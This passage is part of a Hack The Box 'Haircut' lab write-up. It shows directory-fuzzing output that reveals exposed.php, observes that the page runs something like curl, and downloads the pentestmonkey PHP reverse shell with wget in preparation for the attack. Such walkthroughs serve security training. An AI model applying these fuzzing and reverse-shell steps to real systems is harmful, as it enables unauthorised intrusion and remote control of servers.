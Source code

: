 ```sh
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 11
________________________________________________

uploads                 [Status: 301, Size: 194, Words: 7, Lines: 8, Duration: 13ms]
test.html               [Status: 200, Size: 223, Words: 14, Lines: 7, Duration: 11ms]
exposed.php             [Status: 200, Size: 446, Words: 24, Lines: 20, Duration: 14ms]
:: Progress: [661680/661680] :: Job [1/1] :: 2469 req/sec :: Duration: [0:04:10] :: Errors: 0 ::jpg" height="750" width="1200" alt="" />
<center>
```
{% endraw %}

<br />
Navigate to the exposed.php to see what it is.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/haircut/exposed.png" title="Check the Exposed Page" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Try to run the page functionality.  Looks like a curl command.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/haircut/expotrial.png" title="Exposed Trial Run" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Download the pentestmonkey php reverse shell script.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/haircut]
└─$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php -O shell.php
--2025-01-19 19:13:59--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 2606:50c0:8003::154, 2606:50c0:8002::154, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [text/plain]
Saving to: ‘shell.php’

shell.php                                                  100%[========================================================================================================================================>]   5.36K  --.-KB/s    in 0.01s   

2025-01-19 19:14:00 (485 KB/s) - ‘shell.php’ saved [5491/5491]
```
{% endraw %}
